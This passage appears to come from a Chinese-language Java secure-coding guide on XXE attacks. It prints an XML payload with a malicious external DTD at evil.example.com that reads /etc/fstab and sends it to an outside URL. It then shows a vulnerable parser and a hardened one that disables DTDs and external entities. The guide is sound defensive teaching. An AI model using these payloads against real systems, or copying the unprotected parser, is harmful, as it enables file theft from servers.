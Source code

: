 2.使用参数实体和<CDATA[]>避免XML解析语法错误，构造恶意的实体解析：

XML文件：构造参数实体 % start；% goodies；% end；% dtd定义一个恶意的combine.dtd

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % goodies SYSTEM "file:///etc/fstab">
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://evil.example.com/combine.dtd">
    %dtd;
    ]>
<roottag>&all;</roottag>
```

恶意DTD：combine.dtd中定义实体&all;

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%goodies;%end;">
```

甚至可以这样构造恶意的combine.dtd，将结果发送到目标地址，最后会获得file:///etc/fstab文件。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % send "<!ENTITY all SYSTEM 'http://mywebsite.com/?%gooddies;'>">
%send;
```

**【反例】**

该示例中对来自外部的XML文件进行解析，没有禁止解析DTDs或者禁止解析外部实体。

```java
private void parseXmlFile(String filePath) {
    try {
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        DocumentBuilder db = dbf.newDocumentBuilder();
        Document doc = db.parse(new File(filePath));
        ... // 解析xml文件中的内容
    } catch (ParserConfigurationException ex) {
        // 处理异常
    }
    ...
}
```

上述代码示例中解析XML文件时未进行安全防护，当解析的XML文件是攻击者恶意构造的，系统会受到XXE攻击。

**【正例】**（禁止解析DTDs）

```java
private void parserXmlFileDisableDtds(String filePath) {
    try {
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();

        dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
        dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        DocumentBuilder db = dbf.newDocumentBuilder();
        Document doc = db.parse(new File(filePath));
        ... // 解析xml文件中的内容
    } catch (ParserConfigurationException ex) {
        // 处理异常
    }
    ...
}
```
